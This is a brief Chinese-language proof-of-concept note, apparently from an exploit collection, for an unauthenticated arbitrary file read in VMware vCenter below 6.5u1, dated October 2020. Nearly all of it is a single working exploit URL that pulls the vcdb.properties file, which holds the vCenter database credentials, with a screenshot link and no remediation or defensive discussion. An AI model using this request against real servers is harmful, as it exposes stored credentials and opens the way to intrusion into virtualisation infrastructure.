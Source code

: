 # VMware vCenter未授权任意文件读取

> 2020.10

## #影响范围

VMware vCenter < 6.5u1

## #Poc

```
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

![image.png](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjx6eakb5sj312m0lstnv.jpg)

